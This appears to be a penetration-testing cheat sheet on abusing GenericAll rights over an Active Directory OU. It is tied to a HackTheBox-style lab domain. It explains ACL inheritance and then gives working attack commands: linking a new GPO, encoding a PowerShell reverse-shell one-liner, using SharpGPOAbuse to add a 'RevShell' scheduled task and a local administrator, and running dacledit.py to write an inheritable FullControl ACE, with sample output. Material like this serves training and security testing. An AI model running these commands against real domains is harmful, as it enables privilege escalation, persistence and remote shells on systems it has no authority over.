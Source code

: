 `GenericAll` == `WriteDACL`
the attack vector based on the **GenericAll** rights of a user over an OU relies on the ACL inheritance mechanism in Active Directory. When adding an ACE to a parent object in a domain, it is possible to specify that such an ACE should not only apply to the object itself, but also to all descendant objects. 

As a result, a user having the **GenericAll** right (and thus **WriteDACL** permissions) over an OU could add a **FullControl** ACE to the OU and specify that this ACE should be inherited, **which will effectively lead to the compromise of all child objects since they will inherit said ACE**. As indicated by BloodHound, this can be performed through the **dacledit.py** tool on Linux (or **PowerView** on Windows).

**Main Idea**: If inheritance flag isn't set while we have`GenericAll` on OU, we will create anther `GenericAll` that has inheritance flag set on. 
```
OU=SERVERS (Your original GenericAll - no inheritance)
├── Computer=WEB01 ✗ (No access - inheritance blocked)
├── Computer=DB01  ✗ (No access - inheritance blocked)  
└── User=Admin     ✗ (No access - inheritance blocked)

OU=SERVERS (After dacledit.py with inheritance)
├── Computer=WEB01 ✓ (Now has access via inheritance)
├── Computer=DB01  ✓ (Now has access via inheritance)
└── User=Admin     ✓ (Now has access via inheritance)
```

---
## Commands
```powershell

New-GPO -Name "NewGPO" | New-GPLink -Target "OU=TargetOU,DC=FRIZZ,DC=HTB" -LinkEnabled YES

cat Invoke-PowerShellTcpOneLine.ps1 | iconv -t utf-16le | base64 -w0 --> {T} in bash.

.\SharpGPOAbuse.exe --Addcomputertask --GPOName "car" --Author "car" --TaskName "RevShell" --Command "reverse.exe" --Arguments "powershell enc {T}"
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName "car" --force

gpupdate /force

```

```shell
$ dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'naugustine' -target-dn 'OU=SERVERS,DC=corp,DC=com' 'corp.com'/'naugustine':'Password1'
[...]
[*] DACL modified successfully!

$ dacledit.py -action 'read' -principal 'naugustine' -target-dn 'CN=AD01-SRV1,OU=SERVERS,DC=corp,DC=com' 'corp.com'/'naugustine':'Password1'
[...]
[*] Filtering results for SID (S-1-5-21-2015307081-2275635861-2347354195-1481)
[*]   ACE[20] info                
[*]     ACE Type                  : ACCESS_ALLOWED_ACE
[*]     ACE flags                 : CONTAINER_INHERIT_ACE, INHERITED_ACE, OBJECT_INHERIT_ACE
[*]     Access mask               : FullControl (0xf01ff)
[*]     Trustee (SID)             : naugustine (S-1-5-21-2015307081-2275635861-2347354195-1481)
```

